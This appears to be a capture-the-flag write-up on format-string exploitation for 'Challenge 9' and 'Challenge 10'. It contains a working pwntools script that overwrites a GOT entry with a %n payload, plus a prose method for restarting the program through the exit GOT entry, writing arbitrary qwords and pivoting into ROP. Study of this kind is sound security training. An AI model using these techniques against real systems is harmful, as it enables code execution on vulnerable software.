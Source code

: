 ## Challenge 9

Now there's a single invocation of the format vuln. \
However, it isn't pie, and we can overwrite a GOT entry. 

```python
p0 = process(BINARY)
rsp_to_format_offset = 501
format_to_puts_got_offset = 19
prefix_string_size = 117

format_size = 0x300
puts_got_offset = rsp_to_format_offset + format_to_puts_got_offset
puts_got_position =  6 + int(puts_got_offset / 8)

buf_2 = b''
buf_2 += b'%' + str(binary_win_addr - prefix_string_size).encode() + b'c'
buf_2 += b'%' + str(puts_got_position).encode() + b'$n'
buf_2 += 5 * b'B'
buf_2 += struct.pack('<Q', exit_got)
buf_2 += b'A' * (format_size - len(buf_2))
p0.send(buf_2)

p0.interactive()
```

## Challenge 10

Can only activate the vuln once. However, partial RELRO and no PIE - hence we'd overwrite some GOT entry. \
The only good candidate is `exit`, as it is the only method being called after `printf` (no canary checks, so no `__stack_chk_fail`). 

We can overwrite `exit` to the start address of the program, hence restarting it - giving us the ability to execute the vuln as many times as we wish, now having the ability to leak any values we'd like off the stack. 
Moreover, we can write content to the stack, and pivoting the frame pointer, so that ROP would be triggered. \
Initially, I've implemented generic R/W primitive. The API was a generated format string for every R/W request, as can be seen within `write_addr`. \
However, each invocation of the primitive opened a new stack frame, as the only legitimate control flow was returning to `func`, hence overwriting stack values. This approach primitive seemed insufficient to exploit (at least easily), as I couldn't write 2 conjecutive qwords near the `RA` within the same stack frame (as `call exit` would overwrite the previously set value).

I've solved this by making the exploit more generic - and allowed writing multiple qwords at completely arbitrary addresses within a single format string invocation, as can be seen within `write_addrs`. 

```python
BINARY = glob('/challenge/baby*')[0]
LIBC = '/lib/x86_64-linux-gnu/libc.so.6'
GDB_SCRIPT= '''
set follow-fork-mode child
b *func+337
c
'''

libc = ELF(LIBC)
binary = ELF(BINARY)

printf_got = binary.got['printf']
exit_got = binary.got['exit']
binary_func_addr = binary.symbols['func']

```